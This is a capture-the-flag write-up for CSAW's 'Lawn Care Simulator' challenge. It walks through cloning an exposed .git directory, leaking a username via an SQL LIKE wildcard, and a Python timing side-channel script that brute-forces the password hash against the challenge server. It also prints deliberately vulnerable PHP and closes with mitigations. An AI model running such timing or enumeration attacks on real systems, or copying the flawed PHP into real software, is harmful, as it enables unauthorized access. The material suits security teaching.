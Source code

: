 ## Lawn Care Simulator
Writeup by @auscompgeek.

### tl;dr
* `.git` repo was exposed
* get username through `sign_up.php` and wildcards
* use side-channel attacks to log in by brute-forcing the passhash

### Introduction
On visiting the challenge website, we are greeted with a simple game.
Let's take a peek at some of the source:

```javascript
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
```

Here, we see that passwords are *sent* to the server as MD5 hashes, and
that there's a `git` repo at `.git`.

### Exploitation
Let's clone the git repo:

```
$ git clone http://54.175.3.248:8089/.git/ lawn-care-sim
Cloning into 'lawn-care-sim'...
Done.
```

... that was simpler than I expected.

```
$ cd lawn-care-sim
$ ls
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Let's take a look at these PHP files.

> `premium.php`:
```php
<?php
# [snip]
    require_once 'validate_pass.php';
    require_once 'flag.php';
    if (isset($_POST['password']) && isset($_POST['username'])) {
        $auth = validate($_POST['username'], $_POST['password']);
        if ($auth){
            echo "<h1>" . $flag . "</h1>";
        }
        else {
            echo "<h1>Not Authorized</h1>";
        }
    }
# [snip]
```

Guess we know where to find the flag now.

> `validate_pass.php`:
```php
<?
function validate($user, $pass) {
    # [snip]
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];
    if (strlen($pass) != strlen($hash))
        return False;
    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
```

So `validate()` takes a username and passhash, fetches the hash from the
database, then compares each digit in the hash.

Hang on a second.  There's a call to `usleep()` in the loop.
Sounds like we'll be performing a side-channel attack to get the hash.

An important thing to note is that the length of the hashes are checked first.
When performing our attack, we'll have to pad our hash.

> `sign_up.php`:
```php
<?
# [snip]
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
# [snip]
```

Wait a second, `username LIKE '$user'`?  Interesting.

For those that haven't learnt SQL yet, the `LIKE` operator takes two strings,
and takes the RHS as a wildcard expression to match against the LHS.
In SQL, the equivalent wildcard for `*` is `%`.

So, this page takes a *wildcard expression* for the username, and returns a
username in the database.  Great!  Let's grab our username by passing a
username of `%`.

> ## Username: \~~FLAG~~ is not available

Now that we have a username, let's perform our side-channel attack.
In this case, our side-channel is the time it takes to respond to our HTTP
request, so attacks may be unreliable.  I try to mitigate this in various ways.

```python
#!/usr/bin/env python3
import requests
import time

EPS = 0.01

username = '~~FLAG~~'
alphabet = '0123456789abcdef'
known = ''

def try_pw(p):
    data = {'username': username, 'password': p}
    time_start = time.time()
    r = requests.post('http://54.175.3.248:8089/premium.php', data=data)
    time_end = time.time()
    return time_end - time_start, r.text

def fill_pw(p):
    return p.ljust(32, '0')

last_t = max_t = 0
max_l = None

while len(known) != 32:
    for l in alphabet:
        t, result = try_pw(fill_pw(known + l))

        # if we've already found it, just print it
        if 'Not Authorized' not in result:
            print('FOUND IT')
            print(known + l)
            print(result)
            exit()

        print(known + l, t)

        # attempt to detect network latency, etc. really badly
        # this will break if the hash has consecutive zeros in the middle
        if t - last_t < EPS:
            print('fuck')
            known = known[:-1]
            max_t = last_t = max_t / 4
            break

        if max_t < t:
            max_t, max_l = t, l

    else:
        print('adding', max_l, max_t)
        known += max_l
        last_t = max_t

# assuming the flag doesn't have "Not Authorized" in it, we shouldn't get here
print('uhm. something went wrong.')
```

I had to manually intervene a couple of times whilst running my attack,
modifying `EPS` and `known` as appropriate.

... about half an hour later:
```html
667e217660 3.2174746990203857
667e217661 3.2007336616516113
667e217662 3.207519769668579
667e217663 3.2157950401306152
667e217664 3.1841838359832764
667e217665 3.2086429595947266
FOUND IT
667e217666
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```

Our flag is `flag{gr0wth__h4ck!ng!1!1!}`.
(Note: CSAW CTF's flags are case-insensitive.)

An interesting thing to note is that this hash has a lot of trailing zeros.
I wonder whether this hash actually matches a printable string.

### Easter eggs
```
$ cat ___HINT___
Before planting grass, add compost or other soil amendment to the soil to improve its ability to hold water.
$ git log --oneline
aa3025b I think I'll just put mah source code riiiiighhhht here. Perfectly safe place for some source code.
```

### Mitigations
* If you don't want people cloning your git repo, don't make it publicly
  accessible.  Seriously, how many times have we mentioned this already?
* Don't use the SQL `LIKE` operator unless you really mean it.
* `sleep`ing is not a valid way of preventing brute-force attacks.
  :stuck_out_tongue_winking_eye:
